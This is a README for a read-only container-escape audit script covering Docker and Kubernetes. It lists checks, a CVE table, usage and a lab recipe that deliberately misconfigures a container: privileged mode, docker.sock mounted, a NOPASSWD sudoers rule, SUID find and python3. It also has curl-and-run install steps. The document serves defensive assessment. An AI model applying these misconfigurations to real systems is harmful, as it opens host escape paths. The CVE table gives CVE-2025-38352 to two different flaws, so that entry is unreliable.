

# K8s_container-escape-audit

A bash script that runs inside a Docker or Kubernetes container and checks for escape vectors. Built for penetration testers and security teams doing container security assessments.

> For authorised security assessments only. Do not run this on systems you don't have explicit written permission to test.

## What it does

`container_escape_audit.sh` v4.3 performs **51 checks** plus a config-driven CVE engine, covering: privileged configuration, dangerous capabilities, namespace isolation, filesystem mounts, kernel exposure, Kubernetes misconfigurations, cloud metadata access, kernel hardening posture, container-runtime escape surfaces (io_uring, kTLS/sockmap, Kata, KVM/arm64), and an updateable database of recent kernel and runtime CVEs. All checks are strictly read-only — the script makes no changes to the system.

Each finding comes with a structured report entry:

- **What it is**: the misconfiguration or exposure
- **Impact**: worst-case if exploited
- **Exploitability**: difficulty, tooling, real-world precedent
- **Recommendation**: specific remediation steps

The tool ships as two files that must sit in the same directory:

```
container_escape_audit.sh   # main script
cve_checks.conf             # CVE database (update this independently of the script)
```

One note on running as root: checks 1, 2, and 27 (privileged mode, dangerous capabilities, UID 0 mapping) will always produce findings when you run the script as root inside the container. That's expected and correct. Running as root without user namespace remapping is itself a meaningful finding, not a false positive.

## Releases and verification

Releases are published on GitHub with **SLSA Build Level 3 provenance**. Each release carries a signed `multiple.intoto.jsonl` attestation covering both `container_escape_audit.sh` and `cve_checks.conf`, so you can cryptographically confirm that the files you're about to run as root were built by this repository's release workflow and have not been tampered with. See [Verifying the download](#verifying-the-download) below. Because this tool is intended to run with elevated privileges during assessments, verifying provenance before each use is strongly recommended.

## Latest updates (2026-06)

Coverage expanded following the CVE monitor's gap analysis:

- **Four new read-only probes (checks 48-51):** io_uring reachability, kTLS/sockmap ULP attach surface, Kata Containers agent-socket exposure, and arm64 KVM/vGIC-ITS guest-to-host exposure.
- **Eight new CVE database entries**, including the first public KVM/arm64 guest-to-host escape (CVE-2026-46316 "ITScape", CVSS 9.3), the io_uring zcrx out-of-bounds write (CVE-2026-43121), and the ksmbd remote kernel use-after-free (CVE-2022-47939).
- **Two further kernel-LPE entries (2026-06-29):** CVE-2026-43503 ("DirtyClone", CVSS 8.8) — the fourth DirtyFrag-family page-cache-write variant, paired with Fragnesia/CVE-2026-46300 as one split remediation — and CVE-2026-46331 ("pedit COW", CVSS 8.5) — a partial-COW page-cache corruption in the `net/sched` `act_pedit` traffic-control action with a public `packet_edit_meme` PoC. This same pass confirmed previously-`VERIFY` fixed versions for several earlier entries against the Debian/Ubuntu trackers.
- **Two historical runc container-escape entries:** CVE-2019-5736 (the classic `/proc/self/exe` host-binary overwrite, CVSS 8.6, CISA KEV, fixed in runc 1.0-rc7) and CVE-2024-21626 ("Leaky Vessels", `process.cwd` leaked-fd breakout, CVSS 8.6, fixed in runc 1.1.12). Both are `check_type=manual` inventory entries — the host runc version is generally not observable from inside a container, so a clean result should be treated as *unknown* rather than *safe*, with the runc-version signal from check 26 as the practical detection hook. The Leaky Vessels BuildKit siblings (CVE-2024-23651/23652/23653) are intentionally excluded as out-of-scope image-build tooling.
- **New `check_type=manual`** in the CVE engine, letting the database track container-runtime and userspace CVEs (Kata, containerd, Podman, runc, cgroup release_agent) that do not reduce to a kernel version or module test.
- **`ksmbd` added** to the dangerous-modules audit (check 47); **AppArmor enforcement-artifact inspection** added to check 11.
- **SLSA Build L3 provenance** now published with each release (signed `multiple.intoto.jsonl`), verifiable with `slsa-verifier`.

Most kernel-CVE `fixed_versions` / `introduced` fields are now confirmed against the Debian and Ubuntu security trackers. The few that remain marked `VERIFY` in `cve_checks.conf` (CVE-2026-46316, CVE-2026-43121, CVE-2026-43494, and the Podman `component_fixed`) need confirmation against your distribution's security tracker before being relied upon for patch decisions. ITScape is arm64-only.


## Checks

### Container configuration

| # | Check | Severity |
|---|---|---|
| 1 | Privileged container (`--privileged`) | CRITICAL |
| 2 | Dangerous Linux capabilities (CAP_SYS_ADMIN, CAP_SYS_PTRACE, CAP_SYS_MODULE, etc.) | HIGH |
| 3 | Host namespace sharing (PID, network, IPC, UTS, mount) | HIGH |
| 11 | Seccomp / AppArmor / SELinux disabled or unconfined | MEDIUM |
| 27 | User namespace UID mapping (root-in-container = root-on-host) | HIGH |

### Filesystem and mounts

| # | Check | Severity |
|---|---|---|
| 4 | Dangerous host filesystem mounts (`/`, `/etc`, `/dev`, `/sys`, runtime sockets) | CRITICAL |
| 5 | `/proc` exposure (core_pattern, sysrq-trigger, kcore, kmem, PID1 environ) | CRITICAL |
| 8 | Writable cron directories | HIGH |
| 9 | Writable authentication files (`/etc/passwd`, `/etc/shadow`, `/etc/sudoers`) | CRITICAL |
| 13 | SUID/SGID binaries | MEDIUM |
| 17 | Writable dynamic linker config (`/etc/ld.so.preload`, `ld.so.conf.d`) | HIGH |
| 23 | OverlayFS upper directory writability / layer inspection | MEDIUM |
| 33 | OCI hook injection paths (`/run/oci/hooks.d`) | CRITICAL/MEDIUM |

### Kernel

| # | Check | Severity |
|---|---|---|
| 10 | `/dev/mem` access and ptrace scope | CRITICAL |
| 12 | cgroup v1 `release_agent` escape path | CRITICAL |
| 14 | Kernel version (informational; CVE checks handled by the engine) | INFO |
| 19 | cgroup v2 writability | MEDIUM |
| 22 | Kernel module loading status (`modules_disabled`) | INFO |
| 28 | eBPF exposure (CAP_BPF + bpf syscall availability) | CRITICAL |
| 29 | debugfs / tracefs mounted and accessible | HIGH |
| 32 | Kernel keyring exposure | HIGH |
| 34 | Page cache write primitives (splice + pipe2 syscall availability) | HIGH |
| 35 | Procfs namespace file descriptor leakage | MEDIUM |

### Kubernetes and cloud

| # | Check | Severity |
|---|---|---|
| 6 | Kubernetes service account token and RBAC permissions | HIGH-CRITICAL |
| 7 | Environment variable secret leakage | MEDIUM |
| 15 | Cloud instance metadata service reachable (AWS, Azure, GCP) | CRITICAL |
| 16 | Kubelet API exposed unauthenticated (ports 10250, 10255) | CRITICAL |
| 20 | Secret mount directories (`/run/secrets`, `/var/run/secrets`) | HIGH |
| 30 | Kubernetes RBAC active escalation path probing | HIGH-CRITICAL |

### Host access

| # | Check | Severity |
|---|---|---|
| 18 | Namespace escape tooling present (`nsenter`, `unshare`, `runc`, `crictl`) | MEDIUM |
| 21 | SSH private keys readable | HIGH |
| 31 | Additional container runtime sockets (Podman, BuildKit, Kata) | CRITICAL |

### Runtime and namespace (new checks 24-35)

This group covers the escape and runtime vectors added after the original 1-23 baseline. Checks 24 and 46 are handled by the config-driven CVE engine (see [CVE engine](#cve-engine)) rather than as standalone functions; the remainder are listed in their topical tables above and collected here for reference.

| # | Check | Severity |
|---|---|---|
| 24 | Copy Fail (CVE-2026-31431) AF_ALG page-cache write — via CVE engine | CRITICAL |
| 25 | NVIDIAScape (CVE-2025-23266) — NVIDIA Container Toolkit OCI hook LD_PRELOAD injection | CRITICAL |
| 26 | runc masked path race (CVE-2025-31133 / CVE-2025-52565 / CVE-2025-52881) | CRITICAL |
| 27 | User namespace UID mapping (root-in-container = root-on-host without remapping) | HIGH |
| 28 | eBPF exposure (CAP_BPF + bpf syscall availability) | CRITICAL |
| 29 | debugfs / tracefs mounted and accessible | HIGH |
| 30 | Kubernetes RBAC active escalation path probing | HIGH-CRITICAL |
| 31 | Additional container runtime sockets (Podman, BuildKit, Kata) | CRITICAL |
| 32 | Kernel keyring exposure | HIGH |
| 33 | OCI hook injection paths (`/run/oci/hooks.d`) | CRITICAL/MEDIUM |
| 34 | Core pattern and page cache write primitives (splice + pipe2 syscall availability) | HIGH |
| 35 | Procfs namespace file descriptor leakage | MEDIUM |

### Kernel hardening posture (new checks 36-47)

These checks read sysctl values from `/proc/sys` and compare them against the recommended hardening baseline. All are read-only. Values reflect the host kernel configuration.

| # | Parameter | Recommended | Risk |
|---|-----------|-------------|------|
| 36 | `kernel.kptr_restrict` | 2 | KASLR bypass |
| 37 | `kernel.dmesg_restrict` | 1 | Kernel address/register leakage |
| 38 | `kernel.randomize_va_space` | 2 | ASLR partial or disabled |
| 39 | `fs.protected_symlinks` / `fs.protected_hardlinks` | 1 | /tmp symlink and hardlink attacks |
| 40 | `fs.protected_fifos` / `fs.protected_regular` | 2 | FIFO stalling and O_CREAT confusion |
| 41 | `net.ipv4.tcp_syncookies` | 1 | SYN flood DoS |
| 42 | ICMP redirects / source routing / rp_filter | 0 / 0 / 1 | MitM on pod network |
| 43 | `net.ipv4.ip_forward` / IPv6 forwarding | informational | Expected on K8s nodes |
| 44 | `kernel.unprivileged_userns_clone` | 0 | User namespace prerequisite for most container escape CVEs |
| 45 | `kernel.perf_event_paranoid` | ≥ 2 | Spectre-class side-channel attacks |
| 46 | esp4 / esp6 / rxrpc modules | not loaded / blacklisted | Dirty Frag (CVE-2026-43284/43500), Fragnesia (CVE-2026-46300), DirtyClone (CVE-2026-43503) |
| 47 | Dangerous loaded modules audit | — | 15 modules checked incl. algif_aead, ksmbd, rds, rds_tcp, nf_tables, dccp, sctp, bluetooth |

### Runtime escape-surface probes (new checks 48-51)

Read-only reachability probes for container-escape and LPE attack surfaces flagged by the CVE monitor's gap analysis. Each tests whether a subsystem is reachable from the current context (syscall, socket, or socket-file presence) without attempting to trigger any vulnerability. They complement the version/module/socket detection done by the CVE engine.

| # | Check | Severity | Related CVE(s) |
|---|---|---|---|
| 48 | io_uring reachability (`io_uring_setup(2)` + `io_uring_disabled` state) | HIGH | CVE-2026-43121 (zcrx OOB) and the io_uring LPE class |
| 49 | kTLS / sockmap ULP attachable (`setsockopt(TCP_ULP, "tls")`) | MEDIUM | kTLS/sockmap "Reverse Order" UAF, `tls_sk_proto_close()` UAF (no CVE yet) |
| 50 | Kata Containers agent socket / shared dir exposure | HIGH/MEDIUM | CVE-2026-41326 (CopyFile symlink subversion) |
| 51 | KVM/arm64 vGIC-ITS guest-to-host exposure (arch-aware) | HIGH/INFO | CVE-2026-46316 (ITScape) |

> Check 51 is architecture-aware: on x86_64 it reports "not applicable"; on arm64 it distinguishes a KVM host (`/dev/kvm` present) from a guest vantage point (GICv3/ITS present, no `/dev/kvm`) and adjusts severity accordingly.

### Config-driven CVE checks

CVE checks are loaded from `cve_checks.conf` and run by the embedded engine. The database ships with twenty-seven entries and can be updated independently of the script. See [CVE engine](#cve-engine) below.

| CVE | Name | CVSS | ITW | CISA KEV |
|-----|------|------|-----|----------|
| CVE-2026-43494 | PinTheft (RDS + io_uring page-cache overwrite) | 7.8 | | |
| CVE-2026-31431 | Copy Fail | 7.8 | ✓ | ✓ |
| CVE-2026-46333 | Ptrace Credential Hijack | 7.8 | ✓ | |
| CVE-2026-23111 | nf_tables Catchall Verdict-Map UAF | 7.8 | | |
| CVE-2026-46300 | Fragnesia ESP | 7.8 | | |
| CVE-2026-43503 | DirtyClone | 8.8 | | |
| CVE-2026-46243 | CIFSwitch (CIFS SPNEGO upcall LPE) | 7.8 | | |
| CVE-2026-43284 | Dirty Frag ESP | 8.8 | ✓ | |
| CVE-2026-43500 | Dirty Frag RxRPC | 7.8 | ✓ | |
| CVE-2026-46331 | pedit COW (act_pedit partial-COW) | 8.5 | | |
| CVE-2024-1086 | Flipping Pages | 7.8 | ✓ | ✓ |
| CVE-2025-21756 | Attack of the Vsock | 7.8 | | |
| CVE-2025-38352 | Chronomaly | 7.0 | ✓ | |
| CVE-2025-38617 | Packet Socket Race | 7.8 | | |
| CVE-2025-38352 | OverlayFS SetUID Copy | 7.8 | ✓ | ✓ |
| CVE-2022-0847 | DirtyPipe | 7.8 | | |
| CVE-2016-5195 | DirtyCOW | 7.8 | ✓ | ✓ |
| CVE-2026-46316 | ITScape (KVM/arm64 guest-to-host escape) | 9.3 | | |
| CVE-2026-43121 | io_uring zcrx Freelist OOB | 7.0 | | |
| CVE-2022-47939 | ksmbd Tree-Disconnect UAF | 9.8 | | |
| CVE-2026-41326 | Kata CopyFile Symlink Subversion | 8.2 | | |
| CVE-2026-46680 | containerd runAsNonRoot Bypass | 7.3 | | |
| CVE-2026-55686 | Podman WORKDIR Symlink Host Write | 5.3 | | |
| CVE-2026-41579 | runc /dev Symlink Limited Host Write | 3.3 | | |
| CVE-2019-5736 | runc /proc/self/exe Host Binary Overwrite | 8.6 | ✓ | ✓ |
| CVE-2024-21626 | runc process.cwd Leaked-FD Container Breakout (Leaky Vessels) | 8.6 | | |
| CVE-2022-0492 | cgroup release_agent Escape | 7.0 | ✓ | ✓ |

> **Kernel CVEs** (CVE-2026-46316, CVE-2026-43121, CVE-2022-47939) use the standard `kernel_version` / `compound` check types. **Runtime / userspace CVEs** (CVE-2026-41326 Kata, CVE-2026-46680 containerd, CVE-2026-55686 Podman, CVE-2026-41579 / CVE-2019-5736 / CVE-2024-21626 runc, CVE-2022-0492 cgroup) use the new `check_type=manual` — they do not reduce to a kernel version or module test, so the engine emits a tracking finding for inventory while the live detection is done by a dedicated script check (see checks 12, 26, 47, 50, 51). The package fix is recorded in the `component_fixed` field. Note that CVE-2019-5736 and CVE-2024-21626 (Leaky Vessels) are historical runc escapes retained for inventory completeness: the host runc version is usually not visible from inside a container, so a clean result for these should be read as *unknown* rather than *safe* absent host-side inspection or the runc-version signal from check 26.

> **DirtyFrag family.** CVE-2026-43503 (DirtyClone), CVE-2026-46300 (Fragnesia), and CVE-2026-43284 / CVE-2026-43500 (Dirty Frag) are sibling page-cache-write LPEs sharing one primitive: file-backed page-cache memory treated as a writable network buffer because the `SKBFL_SHARED_FRAG` marker is dropped along some skb path. **Important:** CVE-2026-46300 and CVE-2026-43503 are a single upstream remediation split across two CVE IDs — the kernel CNA assigned 43503 to the *second* Fragnesia commit (`48f6a5356a33`), and both ship together in the same vendor advisories (e.g. Debian DSA-6295-1). Track and patch them as a pair; a host fixed for one but not the other is not protected. The esp4/esp6/rxrpc module audit (check 46) and the kernel-version test together gate this family.

> Most kernel-CVE `fixed_versions` / `cvss` fields are now confirmed against the Debian security tracker and Ubuntu/NVD (CVE-2026-43503, CVE-2026-46331, CVE-2026-46300, CVE-2026-46333, CVE-2026-23111). A few entries still carry `VERIFY` markers where backports were mid-rollout at publication — **CVE-2026-46316** (ITScape), **CVE-2026-43121** (io_uring zcrx), **CVE-2026-43494** (PinTheft), and the `component_fixed` for **CVE-2026-55686** (Podman). Confirm any `VERIFY` field against your distribution's security tracker before relying on a "patched" verdict, since backports vary by vendor, and recheck ITW / CISA KEV flags against the current KEV catalog and NVD. Note CVE-2026-46333's CVSS is disputed (NVD 5.5 vs Red Hat/Qualys "Important"); the database uses 7.8 for practical-impact alerting. ITScape (CVE-2026-46316) is **arm64-only**; its `arch=arm64` key means the engine reports it as N/A on non-arm64 hosts (see [Architecture-specific CVEs](#architecture-specific-cves)), and check 51 provides an architecture-aware behavioural probe.

## Usage

The recommended way to obtain the tool is from a **verified GitHub release**, so you can confirm provenance before running anything with elevated privileges. A direct `curl` from `main` is also available for quick, throwaway lab use.

### Option A — verified release (recommended)

Requires the [GitHub CLI](https://cli.github.com/) (`gh`) and [`slsa-verifier`](#verifying-the-download).

```bash
# Download the released artifacts and their signed provenance
gh release download --repo liamromanis101/K8s-container_escape_audit \
  --pattern "container_escape_audit.sh" \
  --pattern "cve_checks.conf" \
  --pattern "multiple.intoto.jsonl"

# Verify provenance (both files at once) before trusting them
slsa-verifier verify-artifact container_escape_audit.sh cve_checks.conf \
  --provenance-path multiple.intoto.jsonl \
  --source-uri github.com/liamromanis101/K8s-container_escape_audit

chmod +x container_escape_audit.sh
./container_escape_audit.sh
```

A `PASSED: Verified SLSA provenance` line confirms the files are authentic before you run them.

### Option B — direct download from `main` (quick lab use)

```bash
curl -O https://raw.githubusercontent.com/liamromanis101/K8s-container_escape_audit/main/container_escape_audit.sh
curl -O https://raw.githubusercontent.com/liamromanis101/K8s-container_escape_audit/main/cve_checks.conf
chmod +x container_escape_audit.sh
./container_escape_audit.sh
```

> This route is convenient for disposable lab containers but provides **no provenance guarantee** — the files are not verified against a signed attestation. Prefer Option A for any real assessment.

Both files must be in the same directory. The script looks for `cve_checks.conf` alongside itself by default.

### Verifying the download

Releases are published with SLSA Build Level 3 provenance: a signed in-toto attestation (`multiple.intoto.jsonl`) generated by the release workflow using GitHub's OIDC identity and Sigstore keyless signing. Verifying it confirms three things at once — the files came from this repository, they were produced by the expected workflow, and their contents match the recorded digests (no tampering in transit or at rest).

Install `slsa-verifier` (current version v2.7.1) using whichever method suits you:

```bash
# Go (binary lands in $(go env GOPATH)/bin — ensure that's on your PATH)
go install github.com/slsa-framework/slsa-verifier/v2/cli/slsa-verifier@v2.7.1

# macOS (Homebrew, community-maintained formula)
brew install slsa-verifier
```

You can also download a prebuilt binary from the [slsa-verifier releases](https://github.com/slsa-framework/slsa-verifier/releases) and check it against the published `SHA256SUM.md`.

Then verify (optionally pin the expected tag with `--source-tag`):

```bash
slsa-verifier verify-artifact container_escape_audit.sh cve_checks.conf \
  --provenance-path multiple.intoto.jsonl \
  --source-uri github.com/liamromanis101/K8s-container_escape_audit \
  --source-tag v4.3
```

The provenance file is named `multiple.intoto.jsonl` because each release attests to more than one artifact. Always verify the files **as downloaded from the release** — the verifier compares the exact bytes you pass against the signed digests, so a locally modified copy will (correctly) fail.

### Options

```
--report <file>    Write detailed report to <file>
                   Default: container_escape_report_<timestamp>.txt
--json             Emit JSON summary to stdout
--quiet            Suppress info lines, print only WARN/CRITICAL to terminal
--no-report        Skip writing the report file
--cve-conf <file>  Path to CVE database file
                   Default: cve_checks.conf in the same directory as the script
```

### Examples

```bash
# Standard run
./container_escape_audit.sh

# Custom report path
./container_escape_audit.sh --report /tmp/audit_$(hostname).txt

# JSON output, filter CRITICAL findings
./container_escape_audit.sh --json --no-report | jq '.findings[] | select(.severity=="CRITICAL")'

# Quiet terminal output with report
./container_escape_audit.sh --quiet --report ./report.txt

# Use a centralised or updated CVE database
./container_escape_audit.sh --cve-conf /etc/audit/cve_checks.conf
```

### Running inside a Kubernetes pod

```bash
kubectl cp container_escape_audit.sh <namespace>/<pod>:/tmp/audit.sh
kubectl exec -n <namespace> <pod> -- bash /tmp/audit.sh --report /tmp/report.txt
kubectl cp <namespace>/<pod>:/tmp/report.txt ./audit_report.txt
```

### Running as a Kubernetes Job

```yaml
apiVersion: batch/v1
kind: Job
metadata:
  name: container-escape-audit
spec:
  template:
    spec:
      restartPolicy: Never
      containers:
        - name: audit
          image: alpine:latest
          command:
            - sh
            - -c
            - |
              apk add --no-cache bash curl && \
              curl -sO https://raw.githubusercontent.com/liamromanis101/K8s-container_escape_audit/main/container_escape_audit.sh && \
              curl -sO https://raw.githubusercontent.com/liamromanis101/K8s-container_escape_audit/main/cve_checks.conf && \
              chmod +x container_escape_audit.sh && \
              ./container_escape_audit.sh --json
```

```bash
kubectl apply -f audit-job.yaml
kubectl wait --for=condition=complete job/container-escape-audit --timeout=120s
kubectl logs job/container-escape-audit
kubectl delete job container-escape-audit
```

By default the job runs with whatever the cluster's default security context is. That's intentional -- the audit reflects the real permissions available to a workload. If you want to test a specific security context, add the relevant `securityContext` or `serviceAccountName` fields before applying.

## Lab setup for testing

This sets up a deliberately misconfigured Docker container that exercises most of the checks. Use an isolated VM only -- not on a production host or anything with sensitive data on it.

### Prerequisites

```bash
# Add yourself to the docker group
sudo usermod -aG docker $USER
newgrp docker

# Or just prefix docker commands with sudo throughout
```

### Step 1 -- start the vulnerable container

```bash
sudo docker run -d \
  --name cea_vulnerable \
  --hostname cea-target \
  --privileged \
  --pid=host \
  --ipc=host \
  --dns=8.8.8.8 \
  --dns=8.8.4.4 \
  --security-opt apparmor=unconfined \
  --security-opt seccomp=unconfined \
  --cap-add SYS_ADMIN \
  --cap-add SYS_PTRACE \
  --cap-add BPF \
  -v /var/run/docker.sock:/var/run/docker.sock \
  -v /sys:/sys:rw \
  -v $(pwd):/audit:ro \
  -e DATABASE_PASSWORD=supersecret \
  -e AWS_SECRET_ACCESS_KEY=AKIAIOSFODNN7EXAMPLEfakekey \
  -e GITHUB_TOKEN=ghp_fakeTokenForTesting \
  -e API_KEY=fake-api-key-12345 \
  ubuntu:22.04 \
  tail -f /dev/null
```

The `--dns` flags are needed because `--pid=host` combined with `--privileged` can break DNS resolution on some systems.

### Step 2 -- verify internet access

```bash
sudo docker exec -it cea_vulnerable bash
```

Once inside:

```bash
ping -c1 archive.ubuntu.com
# If that fails: echo "nameserver 8.8.8.8" > /etc/resolv.conf
```

### Step 3 -- install packages

```bash
apt-get update -qq && apt-get install -y \
  curl python3 sudo procps \
  libcap2-bin cron vim util-linux
```

### Step 4 -- configure the misconfigurations

```bash
useradd -m -s /bin/bash testuser
echo 'testuser:password' | chpasswd
echo 'ALL ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
echo '* * * * * root echo vuln > /tmp/cron_test' > /etc/cron.d/testlab
service cron start
chmod u+s /usr/bin/find
chmod u+s /usr/bin/python3
```

### Step 5 -- run the audit

```bash
bash /audit/container_escape_audit.sh
```

Save a report and pull it to the host:

```bash
# Inside the container
bash /audit/container_escape_audit.sh --report /tmp/audit_report.txt

# From a second terminal on the host
sudo docker cp cea_vulnerable:/tmp/audit_report.txt ./audit_report.txt
```

### Step 6 -- tear down

```bash
sudo docker rm -f cea_vulnerable
```

### What to expect

| Check | Expected result | Notes |
|---|---|---|
| 1 -- Privileged | CRITICAL | --privileged flag |
| 2 -- Capabilities | HIGH x4+ | SYS_ADMIN, SYS_PTRACE, BPF etc. |
| 3 -- Namespaces | HIGH x2 | --pid=host, --ipc=host |
| 4 -- Mounts | CRITICAL | docker.sock, /sys |
| 5 -- /proc | CRITICAL | core_pattern writable via privileged |
| 7 -- Env secrets | MEDIUM x4 | DATABASE_PASSWORD, AWS key etc. |
| 8 -- Cron | HIGH | /etc/cron.d/testlab writable |
| 9 -- Auth files | CRITICAL | /etc/sudoers modified |
| 11 -- Seccomp | MEDIUM x2 | Both unconfined |
| 12 -- cgroup | CRITICAL | release_agent writable |
| 13 -- SUID | MEDIUM | find, python3 |
| 24 -- Copy Fail | CRITICAL or INFO | Depends on host kernel patch status |
| 27 -- UID mapping | HIGH | Running as root, no userns remap |
| 28 -- eBPF | CRITICAL | CAP_BPF + seccomp unconfined |
| 29 -- debugfs | MEDIUM | /sys mounted |
| 31 -- Runtime socket | CRITICAL | docker.sock mounted |
| 34 -- splice/pipe2 | HIGH | seccomp unconfined |
| 35 -- /proc PIDs | MEDIUM | --pid=host |

Checks that won't fire here (require real infrastructure): Check 15 (cloud IMDS), Check 16 (Kubelet API), Check 25 (real NVIDIA CTK), Check 30 (live Kubernetes API).

## Output

### Terminal

```
========================================================
  container_escape_audit.sh v4.3
  Container escape vector detection
  FOR AUTHORISED SECURITY ASSESSMENTS ONLY
========================================================

--- 1. Privileged container ---
[CRIT]  Container appears PRIVILEGED (CapEff=000001ffffffffff)

--- 4. Dangerous filesystem mounts ---
[CRIT]  Container runtime socket accessible: /var/run/docker.sock

--- 24. Copy Fail (CVE-2026-31431) ---
[CRIT]  VULNERABLE to Copy Fail -- AEAD socket bindable, kernel 6.5.0-21-generic

==================== SUMMARY ====================
  [CRITICAL] Container is running in privileged mode
  [CRITICAL] Container runtime socket accessible: /var/run/docker.sock
  [CRITICAL] Copy Fail (CVE-2026-31431) AF_ALG exposure
  [HIGH    ] Kubernetes service account token is readable
  [MEDIUM  ] Seccomp is disabled for this container

  CRITICAL: 3  |  HIGH: 4  |  MEDIUM: 5  |  INFO: 2
```

### JSON

```json
{
  "tool": "container_escape_audit",
  "version": "4.3",
  "timestamp": "2026-05-01T10:32:00Z",
  "host": "cea-target",
  "kernel": "6.5.0-21-generic",
  "findings": [
    {
      "id": "cve_2026_31431_copy_fail",
      "severity": "CRITICAL",
      "title": "Copy Fail (CVE-2026-31431) AF_ALG exposure",
      "what": "AF_ALG socket family is accessible and the authencesn AEAD algorithm can be bound...",
      "impact": "Allows controlled 4-byte writes into the page cache of any readable executable...",
      "exploitability": "Trivial. A single Python script achieves root reliably...",
      "recommendation": "Apply kernel patches from your distribution immediately..."
    }
  ]
}
```

## Requirements

| Tool | Required | Used for |
|---|---|---|
| `bash` | Yes | Script execution |
| `grep`, `awk`, `find`, `cat` | Yes | Core checks |
| `python3` | Optional | Copy Fail (24), eBPF (28), splice (34), io_uring (48), kTLS ULP (49) |
| `curl` | Optional | IMDS and kubelet API checks |
| `kubectl` | Optional | Kubernetes RBAC enumeration |
| `capsh` | Optional | Human-readable capability decoding |
| `ip` | Optional | Node IP detection for kubelet checks |
| `keyctl` | Optional | Kernel keyring enumeration (32) |
| `sestatus` | Optional | SELinux status |

For verifying releases (Option A): `gh` (GitHub CLI) and `slsa-verifier`. Both are optional and only needed if you verify provenance, which is recommended for real assessments.

## Severity levels

| Level | Meaning |
|---|---|
| CRITICAL | Immediate host escape likely with minimal effort |
| HIGH | Significant risk, exploitable with moderate effort or in combination with other findings |
| MEDIUM | Defence-in-depth gap, increases exploitability of other findings |
| INFO | Recorded for context and cross-referencing |

A single CRITICAL finding is generally enough for a complete host compromise. Multiple findings in combination can elevate lower-severity issues -- a MEDIUM seccomp finding combined with a HIGH capability finding can together constitute a practical escape path.

## Escape techniques covered

Checks 1-23 cover the established container escape primitives: Docker socket escape, privileged container mount, cgroup v1 release_agent, core_pattern pipe handler, Shocker / CAP_DAC_READ_SEARCH, CAP_SYS_ADMIN namespace re-entry, kernel module loading, DirtyPipe (CVE-2022-0847), DirtyCOW (CVE-2016-5195), Kubernetes service account abuse, kubelet unauthenticated exec, cloud IMDS credential theft, host namespace escape via nsenter, ld.so.preload injection, and /dev/mem access.

Checks 24-35 add coverage for more recent and less commonly checked vectors: Copy Fail (CVE-2026-31431) AF_ALG page cache write, NVIDIAScape (CVE-2025-23266) OCI hook LD_PRELOAD injection, runc masked path race (CVE-2025-31133/-52565/-52881), root-in-container UID mapping, eBPF kernel memory inspection, debugfs/tracefs ftrace exposure, Kubernetes RBAC active probing, additional runtime sockets (Podman, BuildKit, Kata), kernel keyring extraction, OCI hook directory injection, splice/pipe2 syscall surface, and procfs namespace fd leakage.

Checks 48-51 extend coverage to recently disclosed container-escape and LPE attack surfaces: io_uring reachability (CVE-2026-43121 zcrx out-of-bounds write and the broader io_uring LPE class), kTLS/sockmap ULP attach surface (the "Reverse Order" and `tls_sk_proto_close()` use-after-free reports), Kata Containers agent-socket exposure (CVE-2026-41326 CopyFile symlink subversion), and arm64 KVM/vGIC-ITS guest-to-host exposure (CVE-2026-46316 ITScape — the first public KVM/arm64 escape).

The config-driven CVE engine additionally covers the most recent kernel privilege-escalation and container-escape issues, including ptrace credential hijack (CVE-2026-46333), nf_tables anonymous-set use-after-free (CVE-2026-23111), Fragnesia ESP (CVE-2026-46300), ITScape KVM/arm64 escape (CVE-2026-46316), the io_uring zcrx OOB write (CVE-2026-43121), the ksmbd remote kernel UAF (CVE-2022-47939), and a set of container-runtime CVEs tracked as advisory entries (Kata CVE-2026-41326, containerd CVE-2026-46680, Podman CVE-2026-55686, runc CVE-2026-41579 plus the historical runc escapes CVE-2019-5736 and CVE-2024-21626 "Leaky Vessels", and the classic cgroup release_agent escape CVE-2022-0492 / CISA KEV). See the [Recent CVEs](#recent-cves) detail section below.

## Exploitation reference

What an attacker can actually do with each finding. For authorised testing and defensive purposes only.

<details>
<summary><h3>Container configuration</h3></summary>

#### Check 1 -- Privileged container (CRITICAL)

```bash
